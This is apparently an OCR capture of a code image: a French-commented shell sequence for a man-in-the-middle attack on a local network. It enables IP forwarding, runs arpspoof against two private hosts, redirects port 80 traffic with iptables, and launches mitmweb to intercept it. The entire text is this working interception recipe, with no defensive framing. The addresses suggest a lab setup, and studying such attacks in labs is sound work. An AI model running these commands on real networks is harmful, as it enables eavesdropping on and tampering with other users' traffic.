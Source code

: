 # Activer le transfert IP
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Empoisonner les tables ARP
sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20

# Rediriger le trafic HTTP vers le port 8081
sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8081

# Lancer mitmweb sur le port 8081, écouter sur toutes les interfaces
sudo mitmweb -p 8081 --host
